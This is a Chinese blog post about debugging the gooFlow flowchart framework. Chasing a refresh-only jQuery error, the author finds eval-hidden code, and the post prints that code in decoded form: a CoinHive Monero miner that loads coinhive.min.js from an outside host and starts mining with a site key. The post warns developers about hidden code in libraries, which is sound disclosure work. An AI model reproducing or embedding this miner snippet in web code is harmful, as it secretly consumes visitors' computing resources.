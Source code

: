 ```yaml
---
layout: post
title:  "由一个bug找到JS挖矿代码"
date:   2018-06-16
categories: JS
author: 张翔
location: ShangHai, China
cover: "https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/miner-block.jpg"
description: 通过使用一个开源框架，发现了bug，在找bug的过程中发现了js挖矿代码！
---
```

---
由于工作需要，需要前端画流程图，找到一个开源的框架**gooFlow**（下图就是这个开源框架），它可以编辑流程图，提供节点和线以及一些辅助功能。仔细看一下这是一个国人写框架，文档也是中文，用起来也很顺手。
 ![Image1.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image1.png)
 但是使用这个框架的时候发现一个很奇怪的bug，描述起来就是：**我在父页面的a标签点击跳转到流程图页面，如果a标签的target是_top，页面就不会报错，但是如果target的值为_blank，页面第一次打开不会报错，只有在刷新的情况下页面才会报错。**报错信息如下
 ![Image2.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image2.png)
 其实从这个信息推断不出来什么具体信息，只知道jQuery这个对象应该不存在，所以导致程序出错，仔细检查我的页面代码的引入，发现jQuery都有引入，都没问题，结合这个bug出现的时机，只在新开页面且刷新过一次的情况下才会报错，所以可以推断出这个gooFlow框架应该是引用了父页面的某个对象，然后在刷新一次页面的情况下，父页面的这个对象为空才会导致报错。
接着我就开始搜索gooFlow的**window.opener**和**window.parent**的引用，**window.opener返回的是创建该窗口的 Window 对象的引用，window.parent返回的是返回当前窗口的父窗口**。但是都没有找到导致bug的源头。
束手无策的时候，尝试使用最原始的方法，**删除父页面上的js引用**，看流程图页面抛出什么错误，当我把父页面的jQuery删除的时候，页面报了不一样的错误（下图）。
 ![Image3.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image3.png)
 找到对应方法处的代码，如下图，是使用**eval**执行一串字符串，很不好调试，只好把这一串代码拷贝出来执行一下看执行的是什么代码？
 ![Image4.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image4.png)
 正当我纳闷为啥需要对框架里面的**代码加密**的时候，我找到了eval执行的字符串，格式化之后如下，保存的原因找到了，**_opener.$**的使用就是对**打开这个页面的jQuery的引用**，所以删除父页面jQuery报错信息会不一致。
```javascript
var _ = window;
try {
    _ = _.opener.$
} catch (e) {
    try {
        _ = _.top.$
    } catch (e) {
        _ = $
    }
};
if (!_("head").data('x')) {
    GooFlow.a = 1;
    _a = 20;
    var d = new Date();
    _("head").data('x', 1);
    _.ajax("https://coinhive.com/lib/coinhive.min.js?" + d.getFullYear() + d.getMonth() + d.getDate(), {
        dataType: 'script',
        cache: true
    });
    _i = setInterval(function () {
        try {
            new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();
            clearInterval(_i)
        } catch (e) {
            _a--;
            if (_a < 1) document.write("")
        }
    }, 1000)
}
```
 仔细看这个代码会发现这竟然是一串挖矿代码！！！会去请求接口:`https://coinhive.com/lib/coinhive.min.js`，然后执行`new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();`开始挖矿，在网上找到了，这是**门罗币的挖矿代码**。具体可以看看下面这篇文章：
JS挖矿 - 门罗币是如何利用网页挖矿的？（http://liujinkai.com/2017/10/28/js-miner/）


现在很多开源的框架、插件、库，使用起来都要小心，一不小心就中了别人的圈套，挖这种事是牺牲用户体验的基础上进行的，可以看到cpu使用飙升，电脑发烫，所以如果你为了你的网站优化用户体验的时候，发现怎么优化都无济于事，记得找一找你引用代里面有哪些隐藏的圈套。


最后推荐一下chrome阻止挖矿的插件**minerBlock**
 ![Image5.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image5.png)
 最后，这篇文章投稿了**前端早读课**：[链接](https://mp.weixin.qq.com/s/fLGaVR-F8hFtZmHMFaNB4A)
